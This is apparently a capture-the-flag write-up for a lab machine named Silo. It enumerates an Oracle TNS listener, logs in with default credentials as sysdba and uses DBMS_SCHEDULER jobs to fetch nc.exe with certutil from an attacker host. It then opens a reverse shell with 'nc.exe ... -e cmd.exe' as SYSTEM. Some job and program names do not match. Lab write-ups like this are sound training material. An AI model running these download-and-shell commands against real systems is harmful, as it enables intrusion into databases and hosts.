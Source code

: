 # Silo

### Reconnaissance

**RPC**

Access denied when trying to connect with a null session

**SMB**

No anonymous or guest access, system information from NetExec:

NetExec smb enum: `Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)`

**Oracle TNS Listener**

A quick google for Oracle TNS listener shows this hacktricks post: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

They suggest using odat: https://github.com/quentinhardy/odat

Enumerating the service with odat gives us two SIDs, `XE` and `XEDB`, and some default credentials `scott/tiger`

```bash
./odat all -s 10.10.10.82
./odat all -s 10.10.10.82 -d XE -U scott -P tiger
```

Further enumeration with the credentials doesn't give us any more information

This [secybr post](https://secybr.com/posts/oracle-pentesting-best-practices/) mentioned in hacktricks gives us lots more enumeration options and several methods for RCE 
with user credentials

First, we need to install sqlplus and set some environment variables:

```bash
# install sqlplus
sudo apt install oracle-instantclient-sqlplus

# find the directory from the sqlplus symlink for ORACLE_HOME env var
file $(which sqlplus)
/usr/bin/sqlplus: symbolic link to ../lib/oracle/19.6/client64/bin/sqlplus

# path or version may be different
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
```

We can connect to both SIDs with the default credentials with system database privileges

Connect to XE or XEXDB with system database privileges

```bash
sqlplus <user>/<password>@10.10.10.82/<SID> 'as sysdba';
```

**Exploitation**

The target doesn't have Java installed so the first method won't work, but we can use the DBMS_SCHEDULER to 
create jobs and schedule them to get RCE on the target. We will not get back any output from the command
execution so sanity checking is a good idea!

First host the nc.exe binary using python:

```bash
python -m http.server 80
```

Then create a job to download the nc.exe binary with certutils in sqlplus:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2002','EXECUTABLE','c:\Windows\system32\certutil.exe -urlcache -f http://10.10.10.2/nc.exe c:\nc.exe',0,TRUE);
```

Now schedule the job to run immediately:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![upload](./img/upload.png)

Start a netcat listener on the attacking machine:

```bash
nc -lnvp 443
```

Create a job to run the nc.exe binary to connect to our attacker machine:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2003','EXECUTABLE','c:\nc.exe 10.10.10.2 443 -e cmd.exe',0,TRUE);
```

Finally, schedule the job to run immediately and get a reverse shell on the target:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![shell](./img/shell.png)

### Privilege Escalation

Running `whoami` gives us an error as if it wasn't installed on the machine. If we navigate to system32 we 
can run it and discover we have SYSTEM privileges

![system](./img/system.png)

### Lessons Learned

- Always try to connect to Oracle TNS listeners with 'as sysdba'
- When scheduling tasks with DBMS_SCHEDULER use binaries we know will be installed on the target in 
predictable locations
- Sanity checking when using scheduled tasks is important as we don't get any output from the executed commands
